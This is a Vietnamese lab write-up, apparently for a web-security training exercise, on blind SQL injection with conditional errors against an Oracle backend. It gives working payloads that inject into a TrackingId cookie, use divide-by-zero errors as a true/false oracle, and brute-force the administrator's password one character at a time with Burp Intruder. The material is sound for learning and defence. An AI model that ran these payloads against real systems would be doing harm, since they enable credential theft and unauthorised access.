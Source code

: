 **Trước hết mình sẽ nói về kĩ thuật ``SQL injection with conditional errors`` trước.**
**Kỹ thuật này khác với các cuộc tấn công SQL Injection thông thường ở chỗ nó không trực tiếp trả về kết quả của câu lệnh SQL độc hại, mà sử dụng các lỗi điều kiện để xác định kết quả của truy vấn SQL bằng cách đưa ra các câu hỏi "có đúng hay không" (true/false).**

![image](https://user-images.githubusercontent.com/125866921/233150826-0f37f8c9-0442-4509-8a66-b011c5e92a6a.png)

  - Ở lab này chúng ta vẫn tiếp tục đi tìm tài khoản ``administrator``.  
  - Sau khi proxy trang web lên burpsutie thì ta thấy ở đây có phần ``TrackingId``. Ta sẽ inject vào đây.  

![image](https://user-images.githubusercontent.com/125866921/233158868-fbe187ca-9899-4165-b6b3-587fe945b3ac.png)

  - Ở phần ``TrackingId``, ta thử thêm ``'`` vào thì kết quả nó trả về lỗi.
  - Do đó ta có thể inject bằng những cách sử dụng ``'``.  

![image](https://user-images.githubusercontent.com/125866921/233159533-a98fd57d-2b82-44cd-8bfe-f5348713a1a6.png)

  - Ta có thể khai thác lỗi này khi mà đúng cú pháp SQL nhưng trả về lỗi.  
  - Sau 1 hồi mò mẫm mình thử thành công với câu lệnh sau: ``TrackingId=xyz'||(SELECT '')||'``

      - Toán tử ``||`` cho phép nối chuỗi dữ liệu và kết quả truy vấn.  
      - Cặp dấu ngoặc đơn ``()`` được sử dụng để nhóm các điều kiện hoặc phép tính lại với nhau.  

  - Trong trường hợp này, câu truy vấn vẫn có lẽ không hợp lệ. Có thể do loại database, ta thử chọn bảng dual.  

        '||(SELECT '' FROM dual)||'
        
  - Khi ta sử dụng câu truy vấn trên thì không trả về lỗi nữa, điều này cho thấy rằng mục tiêu có thể đang sử dụng cơ sở dữ liệu Oracle, cơ sở dữ liệu này yêu cầu tất cả các câu lệnh ``SELECT`` phải chỉ định rõ ràng tên bảng.  

![image](https://user-images.githubusercontent.com/125866921/233165833-eea5ea77-ff5c-4d87-b3f6-0cc301e562b8.png)

  - Lần này mình sẽ xây dựng 1 câu truy vấn hợp lệ, nhưng lại dẫn nó đến 1 bảng không tồn tại.  

        '||(SELECT '' FROM not-a-real-table)||'
        
  - Kết quả là nó vẫn trả về lỗi.  

![image](https://user-images.githubusercontent.com/125866921/233626499-cd4a4037-020b-4b23-b678-904d1b8165a9.png)

        '||(SELECT '' FROM users WHERE ROWNUM = 1)||'
        
  - Tiếp theo ta thử với câu lệnh truy vấn trên.  
  - Dùng một chuỗi rỗng từ bảng users với điều kiện ``ROWNUM`` bằng ``1``. ``ROWNUM`` là một cột giả của Oracle dùng để đánh số thứ tự cho các bản ghi trả về.  Kết quả không trả về lỗi chứng tỏ chúng ta không thể khai thác bằng cách này.  

![image](https://user-images.githubusercontent.com/125866921/233629056-6e83fe16-ca04-49df-9880-e2a7646e59b0.png)

        '||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
        
  - Tiếp theo sử dụng hàm ``CASE`` để kiểm tra điều kiện ``(1=1)``. Vì điều kiện này luôn đúng, truy vấn con sẽ trả về kết quả của hàm ``TO_CHAR(1/0)``, tức là lỗi **division by zero (chia cho số không)**.  
  - Ta chỉnh sửa hàm ``CASE`` thành điều kiện ``(1=2)``. Thì kết quả không còn trả về lỗi nữa.  

![image](https://user-images.githubusercontent.com/125866921/233634253-3436aec7-5b73-420e-a02d-09c8214c7430.png)

        '||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
        
  - Ta sử dụng câu truy vấn trên để check xem có ``username`` nào là ``administrator`` không.  
  - Kết quả trả về lỗi do đó chứng tỏ có tồn tại 1 tài khoản là ``administrator``.  
  - Ta đã tìm được tài khoản, việc tìm theo ta cần làm là tìm mật khẩu để đăng nhập vào cửa hàng.  

![image](https://user-images.githubusercontent.com/125866921/233635477-600a244a-613a-4629-9e6a-ab99792ebbb5.png)

        '||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
        
  - Ta sử dụng lệnh truy vấn để check xem độ dài của mật khẩu có bao nhiêu kí tự.  
  - Ở đây khi ta thấy kết quả trả về lỗi, nhưng khi tăng độ dài của mật khẩu đến ``>20`` thì lại không trả về lỗi nữa. Điều đó cho ta biết rằng chiều dài của mật khẩu có 20 kí tự là tối đa.  

![image](https://user-images.githubusercontent.com/125866921/233637126-e709e6f1-6644-4a61-b257-993929ba6574.png)

  - Bước cuối cùng, ta ``send to intruder`` sau đó với câu lệnh truy vấn là ``'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'``.  
  - Ở phần ``payloads`` ta sử dụng ``BruteForce``. Sau đó ``Start attack`` và thay đổi dần vị trí của các kí tự trong chuỗi mật khẩu.  
  - Sau khi hoàn thành BruteForce 20 kí tự mật khẩu thì ta chỉ việc đăng nhập và hoàn thành lab.  
